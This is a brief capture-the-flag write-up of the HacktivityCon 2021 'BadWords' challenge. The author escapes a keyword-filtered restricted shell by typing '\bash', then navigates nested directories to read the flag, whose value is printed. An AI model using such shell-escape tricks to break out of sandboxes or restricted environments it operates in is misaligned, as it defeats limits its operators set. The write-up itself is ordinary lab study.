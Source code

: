 ```yaml
---
title: HacktivityCon2021 badwords writeup
author: 0xNexn
description: Badwords writeup from HacktivityCon2021
date: 1643750326
tags: ['shell escape', 'sandbox escape', 'ctf', 'HacktivityCon']
---
```


# BadWords
### Challenge
**Tag:** _Easy_

**Description:**
You look questionable... if you don't have anything good to say, don't say anything at all!

### Solve
This challenge was easy basically it a **Restricted shell**!
There are a lot of ways to bypass the restricted shell, but my way is to run a new shell prompt.
That's what I did in the challenge.
The simplest way to bypass it is using an escape character which is the backslash so I used a backslash to run a new shell!
```
user@host:/home/user$ \bash
\bash


```
It ran the command but there is no prompt...
it's weird but at least we can use it to find our flag!

```
>>>ls
just
>>>cd just
>>>ls
out
>>>cd out
>>>ls
of
>>>cd of
>>>ls
reach
>>>cd reach
>>>ls
flag.txt
>>>pwd
/home/user/just/out/of/reach
>>>cat flag.txt
flag{2d43e30a358d3f30fe65cc47a9cbbe98}
```
**NOTE:** There was no prompt I just add the `>>>` for more readability.

*Itsnexn* for **Abyssal Cruelty**
